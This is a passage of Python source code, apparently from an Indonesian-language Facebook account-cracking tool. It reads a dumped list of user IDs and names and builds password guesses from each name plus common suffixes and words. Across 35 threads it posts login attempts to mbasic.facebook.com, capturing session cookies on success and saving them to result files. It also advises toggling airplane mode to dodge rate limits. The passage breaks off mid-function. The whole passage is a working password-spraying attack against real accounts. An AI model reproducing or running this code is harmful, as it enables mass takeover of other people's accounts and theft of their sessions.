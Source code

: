            print("\n[*] Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Hasil Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Hasil Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(crack2, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai%s]"%(B,H,B))
    else:
        exit("%s[%s!%s]%s Wrong Input"%(P,M,P,M))
# Crack Mbasic.Facebook.Com
def mbasic(ids, uid, pwx, **kwargs):
    global loop, ua, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s OK:-%s - CP:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            ses.headers.update({"origin": "https://mbasic.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "mbasic.facebook.com", "referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
            p = ses.get("https://mbasic.facebook.com/login/?next&ref=dbl&refid=8").text
            b = parser(p,"html.parser")
            bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
            for i in b('input'):
                try:
                    if i.get('name') in bl:
                        kwargs.update({i.get('name'): i.get('value')})
                    else:continue
                except:pass
            kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
            gaaa = ses.post("https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fmbasic.facebook.com%2F&lwv=100&refid=8",data=kwargs)
            if "c_user" in ses.cookies.get_dict().keys():
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])